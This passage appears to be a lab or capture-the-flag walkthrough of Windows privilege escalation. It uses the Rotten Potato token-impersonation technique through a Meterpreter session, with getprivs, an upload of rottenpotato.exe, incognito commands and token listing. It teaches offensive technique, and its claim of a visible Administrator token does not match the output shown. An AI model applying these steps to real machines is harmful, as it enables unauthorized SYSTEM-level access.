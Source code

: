 The rotten potato exploit is a privilege escalation technique that allows escalation from service level accounts to SYSTEM through token impersonation.  
[Reference](https://hunter2.gitbook.io/darthsidious/privilege-escalation/token-impersonation).  

Through the getprivs command we can verify all the privileges enabled to the current process.  

{% highlight bash %}
meterpreter > getprivs
============================================================
Enabled Process Privileges
============================================================
  SeAssignPrimaryTokenPrivilege
  SeChangeNotifyPrivilege
  SeCreateGlobalPrivilege
  SeImpersonatePrivilege
  SeIncreaseQuotaPrivilege
  SeIncreaseWorkingSetPrivilege
{% endhighlight %}  

We upload the [rottenpotato](https://github.com/breenmachine/RottenPotatoNG) to our compromised machine.

{% highlight bash %}
meterpreter > cd C:\\Users\\Sarah\\Desktop
meterpreter > upload rottenpotato.exe
[*] uploading  : rottenpotato.exe -> rottenpotato.exe
[*] uploaded   : rottenpotato.exe -> rottenpotato.exe
{% endhighlight %}  

We load the module into our Meterpreter session by executing the use incognito command. Issuing the help command shows us the variety of options we have for incognito and brief descriptions of each option.  

{% highlight shell %}
meterpreter > use incognito
Loading extension incognito...success.
meterpreter > help

Incognito Commands
==================

    Command              Description                                             
    -------              -----------                                             
    add_group_user       Attempt to add a user to a global group with all tokens 
    add_localgroup_user  Attempt to add a user to a local group with all tokens  
    add_user             Attempt to add a user with all tokens                   
    impersonate_token    Impersonate specified token                             
    list_tokens          List tokens available under current user context        
    snarf_hashes         Snarf challenge/response hashes for every token         

{% endhighlight %}  

We see here that there is a valid Administrator token that looks to be of interest. We now need to impersonate this token in order to assume its privileges.   

{% highlight zsh %}
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
TALLY\Sarah

Impersonation Tokens Available
========================================
NT SERVICE\SQLSERVERAGENT
{% endhighlight %}  
